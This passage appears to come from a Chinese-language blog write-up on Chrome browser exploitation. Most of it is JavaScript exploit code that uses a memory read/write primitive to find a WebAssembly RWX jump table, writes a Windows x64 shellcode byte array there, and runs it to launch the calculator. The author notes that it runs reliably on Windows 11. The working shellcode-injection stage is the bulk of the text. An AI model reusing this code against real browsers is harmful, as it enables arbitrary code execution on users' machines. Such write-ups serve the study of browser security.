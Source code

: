 ```JS
let wasmRWXAddr = memory.read64(wasmInstanceAddr + 0xF0n);
print(`[+] WebAssembly RWX Jump Table Address @ 0x${wasmRWXAddr.toString(16)}`);

print("[+] Preparing Shellcode...");
// Prepare Calc Shellcode
let shellcode = new Uint8Array([0x48,0x31,0xff,0x48,0xf7,0xe7,0x65,0x48,0x8b,0x58,0x60,0x48,0x8b,0x5b,0x18,0x48,0x8b,0x5b,0x20,0x48,0x8b,0x1b,0x48,0x8b,0x1b,0x48,0x8b,0x5b,0x20,0x49,0x89,0xd8,0x8b,0x5b,0x3c,0x4c,0x01,0xc3,0x48,0x31,0xc9,0x66,0x81,0xc1,0xff,0x88,0x48,0xc1,0xe9,0x08,0x8b,0x14,0x0b,0x4c,0x01,0xc2,0x4d,0x31,0xd2,0x44,0x8b,0x52,0x1c,0x4d,0x01,0xc2,0x4d,0x31,0xdb,0x44,0x8b,0x5a,0x20,0x4d,0x01,0xc3,0x4d,0x31,0xe4,0x44,0x8b,0x62,0x24,0x4d,0x01,0xc4,0xeb,0x32,0x5b,0x59,0x48,0x31,0xc0,0x48,0x89,0xe2,0x51,0x48,0x8b,0x0c,0x24,0x48,0x31,0xff,0x41,0x8b,0x3c,0x83,0x4c,0x01,0xc7,0x48,0x89,0xd6,0xf3,0xa6,0x74,0x05,0x48,0xff,0xc0,0xeb,0xe6,0x59,0x66,0x41,0x8b,0x04,0x44,0x41,0x8b,0x04,0x82,0x4c,0x01,0xc0,0x53,0xc3,0x48,0x31,0xc9,0x80,0xc1,0x07,0x48,0xb8,0x0f,0xa8,0x96,0x91,0xba,0x87,0x9a,0x9c,0x48,0xf7,0xd0,0x48,0xc1,0xe8,0x08,0x50,0x51,0xe8,0xb0,0xff,0xff,0xff,0x49,0x89,0xc6,0x48,0x31,0xc9,0x48,0xf7,0xe1,0x50,0x48,0xb8,0x9c,0x9e,0x93,0x9c,0xd1,0x9a,0x87,0x9a,0x48,0xf7,0xd0,0x50,0x48,0x89,0xe1,0x48,0xff,0xc2,0x48,0x83,0xec,0x20,0x41,0xff,0xd6]);

print("[+] Writing Shellcode to Jump Table Address...");
// Write Shellcode to Jump Table Start Address
memory.write(wasmRWXAddr, shellcode);

// Execute our Shellcode
print("[+] Popping Calc...");
func();
```

![image.png](https://s2.loli.net/2023/07/21/IPoUzXEMAdDs2He.png)
测试环境Win11还是可以稳定利用

值得细细回味，内存中结构偏移很重要，所以以后分析一定要先想办法挂调试器


https://jhalon.github.io/chrome-browser-exploitation-3/